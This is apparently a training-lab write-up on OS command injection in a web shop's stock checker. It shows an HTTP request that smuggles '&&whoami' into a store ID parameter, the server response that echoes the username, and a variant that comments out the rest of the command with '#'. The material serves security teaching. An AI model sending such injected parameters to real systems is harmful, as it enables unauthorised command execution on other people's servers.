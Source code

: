 # OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

```http
POST /product/stock HTTP/1.1

productId=10&storeId=1%26%26whoami
```

```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 16

52
peter-GO0II3
```

Note that `%26` is the url-encoded `&`. Both parameters are vulnerable so other payloads work such as `productId=10+%26%26+whoami+%23` in which `%23` is the `#` character making the rest of the command a comment.
